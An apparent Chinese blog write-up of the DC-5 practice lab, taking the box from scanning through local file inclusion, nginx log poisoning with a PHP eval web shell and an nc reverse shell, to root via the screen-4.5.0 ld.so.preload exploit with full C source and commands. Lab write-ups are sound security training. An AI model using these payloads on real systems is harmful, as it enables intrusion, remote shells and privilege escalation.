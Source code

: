 ```yaml
---
layout: post
title: DC-5
subtitle: DC-5
date: 2023-07-14 09:42
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


扫描 IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/5EIqko.png)

nmap 扫描端口

![image.png](https://img.ghostliner.top/3eEhul.png)

扫描目录

```shell
dirsearch -u http://192.168.163.131
```

![image.png](https://img.ghostliner.top/NKfI1N.png)

访问 `thankyou.php` 发现页面每次访问年份有变化，猜测有文件包含

![image.png](https://img.ghostliner.top/AkVtmi.png)

wfuzz 测试

```shell
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt -u http://192.168.163.131/thankyou.php?FUZZ=index.php --hw 66
```

![image.png](https://img.ghostliner.top/uJqh3W.png)

查看 passwd 文件: <http://192.168.163.131/thankyou.php?file=file:///etc/passwd>
![image.png](https://img.ghostliner.top/kW0SGs.png)

查看日志文件: <http://192.168.163.131/thankyou.php?file=file:///var/log/nginx/access.log>

日志注入

```
/thankyou.php?file=file://<?php echo qazqazqaz;eval($_REQUEST["cmd"])?>
# or
/thankyou.php?file=file://<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 5555 >/tmp/f')?>
```

蚁剑连接成功
![image.png](https://img.ghostliner.top/hMgCKv.png)

反弹 shell 成功，find 判断是否可以提权，发现 `screen-4.5.0`
![image.png](https://img.ghostliner.top/pgAJ54.png)

搜索相关漏洞，使用 `41154.sh` 进行提权

![image.png](https://img.ghostliner.top/KwqlkT.png)

在目标机上直接执行脚本失败，在 kali 上编译失败。
![image.png](https://img.ghostliner.top/IPVQN9.png)

在 centos7 上先编译再在目标机上执行，成功提权。

**过程如下：**

安装 gcc

```shell
# 1.备份
mv /etc/yum.repos.d/CentOS-Base.repo /etc/yum.repos.d/CentOS-Base.repo.backup
# 2.下载想要的源
wget -O /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
# 3.清除旧缓存数据，建立新的缓存
yum clean all
yum makecache
# 4.安装gcc
yum install -y gcc
```

创建两个文件

```shell
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```

```shell
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```

进行编译

```shell
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/libhax.c
rm -f /tmp/rootshell.c
```

编译成功

![image.png](https://img.ghostliner.top/n3En90.png)

将文件传送到目标机

```shell
# dc-5
cd /tmp
nc -lvp 4545 > libhax.so
# centos
nc 192.168.163.131 4545 <libhax.so
# dc-5
nc -lvp 4545 > rootshell
# centos
nc 192.168.163.131 4545 <rootshell
```

最后在目标机上执行

```shell
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

查看 `/root/thisistheflag.txt`

![image.png](https://img.ghostliner.top/EkFC3Q.png)
